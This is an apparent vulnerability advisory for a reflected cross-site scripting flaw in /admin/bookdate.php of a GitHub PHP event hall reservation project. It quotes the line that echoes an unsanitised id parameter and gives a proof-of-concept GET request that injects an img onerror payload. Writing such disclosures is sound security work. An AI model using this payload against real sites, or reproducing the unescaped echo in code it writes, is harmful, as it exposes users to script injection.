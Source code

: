 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS bookdate.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /admin/bookdate.php

## Code
```php
<h1 class="logo "><a href="../home.php?id=<?php echo $id; ?>">Emisha</a></h1>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/bookdate.php?id="><img+src%3dx+onerror%3dalert("NoChizPlz")>&room_id=1 HTTP/1.1
Host: [REDACTED]
```

## Screenshot


